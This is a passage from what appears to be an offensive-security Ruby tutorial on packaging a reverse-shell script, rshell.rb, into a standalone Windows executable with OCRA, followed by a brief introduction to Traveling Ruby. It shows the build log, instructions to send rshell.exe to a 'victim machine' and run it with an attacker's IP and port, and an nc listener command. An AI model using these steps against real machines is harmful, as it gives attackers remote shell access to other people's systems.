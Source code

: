 ```
C:\Users\admin\Desktop>ocra rshell.rb --windows --console
=== Loading script to check dependencies
ruby C:/Users/admin/Desktop/rshell.rb.rb [HACKER_IP HACKER_PORT]

=== Attempting to trigger autoload of Gem::ConfigFile
=== Attempting to trigger autoload of Gem::DependencyList
=== Attempting to trigger autoload of Gem::DependencyResolver
=== Attempting to trigger autoload of Gem::Installer
=== Attempting to trigger autoload of Gem::RequestSet
=== Attempting to trigger autoload of Gem::Source
=== Attempting to trigger autoload of Gem::SourceList
=== Attempting to trigger autoload of Gem::SpecFetcher
=== Attempting to trigger autoload of CGI::HtmlExtension
=== Detected gem ocra-1.3.5 (loaded, files)
===     6 files, 191333 bytes
=== Detected gem io-console-0.4.3 (loaded, files)
=== WARNING: Gem io-console-0.4.3 root folder was not found, skipping
=== Including 53 encoding support files (3424768 bytes, use --no-enc to exclude)
=== Building rshell.exe
=== Adding user-supplied source files
=== Adding ruby executable ruby.exe
=== Adding detected DLL C:/Ruby22/bin/zlib1.dll
=== Adding detected DLL C:/Ruby22/bin/LIBEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/SSLEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/libffi-6.dll
=== Adding library files
=== Compressing 10622666 bytes
=== Finished building rshell.exe (2756229 bytes)
```

In the same directory, you'll find an exe file `rshell.exe`. Send it on the windows victim machine which doesn't have ruby installed and run it.

```
rshell.exe 192.168.0.14 9911
```

from our attacking machine we already listening on 9911

```
nc -lvp 9911
```

![](../images/module02/packaging\_\_ocra1.png)

### Traveling-ruby

From official site "_Traveling Ruby is a project which supplies self-contained, "portable" Ruby binaries: Ruby binaries that can run on any Linux distribution and any OS X machine. It also has Windows support (with some caveats). This allows Ruby app developers to bundle these binaries with their Ruby app, so that they can distribute a single package to end users, without needing end users to first install Ruby or gems._"

Note: The following script has been taken from the official docs.
